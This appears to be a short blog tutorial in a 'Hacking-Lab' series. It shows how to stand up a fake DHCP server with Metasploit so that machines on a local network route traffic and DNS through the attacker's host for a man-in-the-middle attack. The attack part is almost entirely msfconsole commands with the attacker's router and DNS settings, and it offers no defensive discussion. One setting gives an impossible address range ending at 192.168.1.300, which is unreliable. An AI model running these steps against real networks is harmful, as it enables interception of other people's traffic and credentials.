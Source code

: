 ```yaml
---
layout: post
title: Create Fake DHCP Using Metasploit  
categories: Hacking-Lab
#subtitle: Excerpt from Soulshaping by Jeff Brown
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [fake dhcp, dhcp spoofing ]
---
```

There is a dangerous type of cyber attack called Man In The Middle. Attacker can make all network traffic go through their system.  
One of the ways of this attack is that the attacker has to make the system being attacked to recognize the attacker's system as the gateway(router)    
that sends all network traffic through here. There are many ways to do this, and the popular way is fake DHCP server.  
## 1. Network Model:  
* **gateway: 192.168.1.1** 
* **netmask: 255.255.255.0**  
* **attacker: 192.168.1.92**  


## 2. Create Fake DHCP:  
Open Metasploit:  
```
msfconsole
```  
```
use auxiliary/server/dhcp
```  
```
show options
```
![](/assets/img/2020-27-2-show-options.png)

Setup DHCP server:  
```
set dhcpipstart 192.168.1.200
```
```
set dhcpipend 192.168.1.300
```
```
set netmask 255.255.255.0
```
```
set broadcast 192.168.1.255
```
```
set router 192.168.1.92
```
```
set dnsserver 192.168.1.92
```
```
set srvhost 192.168.1.92
```
```
run
```
Network information of another machine before and after run fake DHCP:  
*before*  

![](/assets/img/2020-27-2-before.png)  

*after*  

![](/assets/img/2020-27-2-after.png)

